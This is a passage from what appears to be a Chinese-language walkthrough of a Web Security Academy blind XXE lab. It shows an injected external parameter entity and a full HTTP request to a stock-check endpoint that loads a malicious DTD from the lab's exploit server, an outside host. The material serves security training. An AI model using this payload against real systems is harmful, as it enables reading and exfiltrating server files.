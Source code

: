 单击"Go to exploit server"并将恶意 DTD 文件保存在服务器上，单击"查看漏洞"并记下 URL

[![](assets/1706060044-4bb4084cb6bf9c350fe5a0822fbe1980.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131726-b23948a0-b9ae-1.png)  
随后需要通过添加引用恶意 DTD 的参数实体来利用股票检查器功能，在 XML 声明和 stockCheck 元素之间插入以下外部实体定义：

```bash
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

```bash
POST /product/stock HTTP/1.1
Host: 0a550032033f094c80325843002000cd.web-security-academy.net
Connection: close
Content-Length: 234
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a550032033f094c80325843002000cd.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a550032033f094c80325843002000cd.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=F9hc72Qi6qlwSFI45griUZdBSBgi00gB

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a5b0017037d097880e1577001da00ec.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

